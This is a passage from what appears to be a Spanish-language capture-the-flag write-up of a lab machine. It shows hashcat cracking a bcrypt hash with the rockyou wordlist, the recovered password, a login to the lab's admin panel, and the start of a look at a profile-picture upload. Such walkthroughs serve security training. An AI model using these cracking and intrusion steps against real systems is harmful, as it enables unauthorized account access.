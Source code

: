 ```bash
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH...fUPrL2
Time.Started.....: Fri Aug  9 20:56:18 2024 (30 secs)
Time.Estimated...: Fri Aug  9 20:56:48 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       55 H/s (9.11ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1600/14344384 (0.01%)
Rejected.........: 0/1600 (0.00%)
Restore.Point....: 1584/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: alexis1 -> dragon1
Hardware.Mon.#1..: Temp: 69c Util: 90%

Started: Fri Aug  9 20:55:35 2024
Stopped: Fri Aug  9 20:56:50 2024
```

Con esta credencial ahora podemos acceder a la parte administrativa ubicada en `admin.usage.htb`:

![Admin panel](/assets/writeups/usage/3.png)

Podemos ver atributos del servidor como la versión de PHP, el software CGI, la versión de Laravel y la versión del servidor web. Buscando por cosas que podamos manipular por acá encontraremos que podemos subir una foto de perfil:
